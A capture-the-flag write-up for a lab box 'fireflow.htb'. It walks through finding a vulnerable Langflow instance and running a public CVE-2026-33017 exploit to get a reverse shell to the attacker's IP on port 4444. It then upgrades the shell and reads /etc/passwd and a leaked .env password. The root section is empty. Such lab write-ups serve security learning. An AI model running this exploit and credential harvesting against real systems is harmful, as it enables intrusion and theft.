







## User Flag
- Again, recon first:
    - 
- We are able to visit fireflow.htb after adding it to `/etc/hosts`, then we see that the web also has a button to direct us to flow.fireflow.htb, so let's add that in to `/etc/hosts` too.
- After visiting that site and clicking a bit we see that it present a login portal with the service `langflow` -> maybe we can try to search for the version and see if there are any available CVEs
    - 
- There is indeed a CVE for vers 1.9.0 and below, so let us follow this: https://github.com/EQSTLab/CVE-2026-33017
- So what we have to do is collect the flowid on the agent page, then do this `python exploit.py --url https://flow.fireflow.htb --flow-id 7d84d636-af65-42e4-ac38-26e867052c25 --lhost 10.10.16.159 --lport 4444` (Note that we don;t have to use the predetermined port because nginx on the box might have adjusted it)
- However it stucks at self signed cert, and the original PoC does not have this flag to set, so let's patch this ourselves:
    - Add verify = False here 
    - 
- And we're in!
    - 
- First upgrade our shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then: Ctrl-Z
stty raw -echo; fg          
export TERM=xterm
```
- Then we can see that there is an .env file lying around:
    - 
- Hmm password is leaked, but what is the user? Go to `/etc/passwd`
    - 
- It has to be `nightfall` right
- 
## Root Flag
